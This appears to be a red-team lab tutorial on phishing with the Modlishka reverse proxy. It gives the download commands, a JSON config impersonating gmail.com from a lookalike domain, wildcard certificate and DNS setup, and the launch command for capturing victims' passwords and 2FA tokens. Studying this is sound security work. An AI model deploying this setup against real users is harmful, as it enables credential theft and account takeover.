 # Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim \(MITM\) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

![](../../.gitbook/assets/annotation-2019-06-25-214151.png)

Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

![](../../.gitbook/assets/annotation-2019-06-25-214300.png)

## Modlishka Configuration

Let's create a configuration file for modlishka:

![](../../.gitbook/assets/annotation-2019-06-25-214425.png)

{% code title="modlishka.json" %}
```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```
{% endcode %}

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:

![](../../.gitbook/assets/annotation-2019-06-25-214749.png)

We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:

![](../../.gitbook/assets/annotation-2019-06-25-214849.png)

Once the DNS TXT record is created, continue with the certificate generation:

![](../../.gitbook/assets/annotation-2019-06-25-214924.png)

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

![](../../.gitbook/assets/annotation-2019-06-25-215107.png)

Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:

![](../../.gitbook/assets/annotation-2019-06-25-215155.png)

## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:

![](../../.gitbook/assets/annotation-2019-06-25-215308.png)

This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`

![](../../.gitbook/assets/annotation-2019-06-25-215702.png)

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with contents of gmail.com - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:

![](../../.gitbook/assets/modlishka.gif)

## References

{% embed url="https://github.com/drk1wi/Modlishka" %}

